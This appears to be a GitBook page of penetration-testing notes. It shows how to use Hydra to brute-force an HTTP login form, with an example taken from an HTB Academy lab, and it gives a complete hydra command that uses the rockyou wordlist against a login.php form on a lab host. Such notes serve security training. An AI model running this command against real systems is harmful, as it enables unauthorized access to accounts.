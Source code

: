 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1) and select something unique from its source code (Figure 2).

<div>

<figure><img src="../../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

 

<figure><img src="../../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: The HTTP login form's source code.</p></figcaption></figure>

</div>

We perform a Brute Force Attack (BFA) against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>
